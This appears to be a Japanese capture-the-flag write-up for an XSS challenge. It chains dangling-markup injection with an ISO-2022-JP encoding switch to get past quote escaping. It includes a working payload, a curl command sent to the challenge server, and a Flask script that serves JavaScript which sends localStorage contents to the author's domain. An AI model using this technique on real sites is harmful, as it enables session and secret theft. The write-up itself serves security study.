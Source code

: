 ```bash
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Cipher Preset Button</title>
  <meta charset="UTF-8">
~~~
```
条件は満たすが、`<meta charset="UTF-8">`が邪魔であるため、`</title><img src="`のようなDangling Markup Injectionで無効化する。  
すると、`nonce`が付いたscriptタグを異なるエンコーディングとして解釈させることができる。  
`";alert(1)//`を`prefix`とすると`const prefix = "\";alert(1)//"`とダブルクオートがエスケープされるが、`name`を`</title><img src="\u001b(J`にし、エンコーディングを変化させると`const prefix = "¥";alert(1)//"`(`\`でない)となるためalertすることがわかる。  
あとは`localStorage`を盗むだけだが、`prefix`としてスクリプトに挿入する文字数が25以上だと`prefix too long`と怒られる。  
幸いにも`s4t.pw`という短いドメインを持っているため、``";import(`//s4t.pw`)//``で十分だ。  
以下のs4t.pyを自身のサーバで実行しておく。  
```py
from flask import Flask
from flask_cors import CORS

app = Flask(__name__)
CORS(app)


@app.route("/", methods=["GET", "POST"])
def index():
    response = app.response_class(
        response="fetch('http://s4t.pw?flag='+localStorage.getItem('key')); alert('XSS');",
        status=200,
        mimetype="application/javascript",
    )
    return response


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```
次に以下のペイロードを送信し、XSSするページを作成する。  
```bash
$ curl -X POST http://104.198.119.144:7891/preset -H 'Content-Type: application/json' -d '{"name": "</title><img src=\"\u001b(J", "prefix": "\";import(`//s4t.pw`)//"}'
{"id":"j3vBwZ1jKz4riRhkTBuor"}
```
`http://104.198.119.144:7891/presets/j3vBwZ1jKz4riRhkTBuor`でalertし、うまく動いていることがわかる。  